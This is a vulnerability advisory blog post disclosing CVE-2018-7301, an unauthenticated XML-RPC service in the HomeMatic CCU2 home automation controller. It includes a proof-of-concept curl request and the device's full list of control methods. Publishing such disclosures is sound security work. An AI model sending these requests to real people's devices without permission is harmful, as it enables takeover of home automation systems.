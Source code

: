 ```yaml
---
layout: post
title: "CVE-2018-7301: Unauthenticated XML-RPC Service in HomeMatic CCU2"
date:   2018-02-21 13:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU2 is a central control unit, which is responsible for integrating these components with each other.

From the vendor's website ([eQ-3](http://www.eq-3.de/produkte/homematic/zentralen-und-gateways.html)):

"The Homematic Central Control Unit CCU2 is responsible for numerous control, signalling and supervision functions across all areas of the Homematic system. The device includes a browser based user interface to the up the system. It can be controlled in the local network as well as via Internet. The Homematic software offers various configuration and application possibilities, so that there are no limits to creativity for installing your individual smart home."

# Issue Description

While analyzing the available ports of the CCU2, an open XML-RPC port without authentication has been identified. This can be exploited by sending arbitrary XML-RPC request to control the attached bidcos-devices.

The following request illustrates the problem:

```
curl -v -H "Content-Type:text/xml" -d "<?xml version="1.0"?><methodCall>
<methodName>system.listMethods</methodName><params/></methodCall>"
http://192.168.2.145:2001
```

The following response shows that the system successfully processed the unauthenticated request:

~~~
HTTP/1.1 200 OK
Server: XMLRPC++ 0.7
Content-Type: text/xml
Content-length: 1736

<?xml version="1.0"?>
<methodResponse>
  <params>
    <param>
      <value>
        <array>
          <data>
            <value>abortDeleteDevice</value>
            <value>activateLinkParamset</value>
            <value>addDevice</value>
            <value>addLink</value>
            <value>addVirtualDeviceInstance</value>
            <value>changeKey</value>
            <value>clearConfigCache</value>
            <value>deleteDevice</value>
            <value>deleteVolatileMetadata</value>
            <value>determineParameter</value>
            <value>exit</value>
            <value>getAllMetadata</value>
            <value>getDeviceDescription</value>
            <value>getInstallMode</value>
            <value>getKeyMismatchDevice</value>
            <value>getLinkInfo</value>
            <value>getLinkPeers</value>
            <value>getLinks</value>
            <value>getMetadata</value>
            <value>getParamset</value>
            <value>getParamsetDescription</value>
            <value>getParamsetId</value>
            <value>getServiceMessages</value>
            <value>getValue</value>
            <value>getVersion</value>
            <value>getVolatileMetadata</value>
            <value>hasVolatileMetadata</value>
            <value>init</value>
            <value>listBidcosInterfaces</value>
            <value>listDevices</value>
            <value>listReplaceableDevices</value>
            <value>listTeams</value>
            <value>logLevel</value>
            <value>ping</value>
            <value>putParamset</value>
            <value>refreshDeployedDeviceFirmwareList</value>
            <value>removeLink</value>
            <value>replaceDevice</value>
            <value>reportValueUsage</value>
            <value>restoreConfigToDevice</value>
            <value>rssiInfo</value>
            <value>setBidcosInterface</value>
            <value>setInstallMode</value>
            <value>setInterfaceClock</value>
            <value>setLinkInfo</value>
            <value>setMetadata</value>
            <value>setRFLGWInfoLED</value>
            <value>setTeam</value>
            <value>setTempKey</value>
            <value>setValue</value>
            <value>setVolatileMetadata</value>
            <value>system.listMethods</value>
            <value>system.methodHelp</value>
            <value>updateFirmware</value>
            <value>system.multicall</value>
          </data>
        </array>
      </value>
    </param>
  </params>
</methodResponse>
~~~~

# CVE

[CVE-2018-7301](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7301)

# Credit

Patrick Muench of [SVA Systemvertrieb Alexander GmbH](https://www.sva.de)

Gregor Kopf of [Secfault Security GmbH](https://secfault-security.com)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2017 Secfault Security GmbH & SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

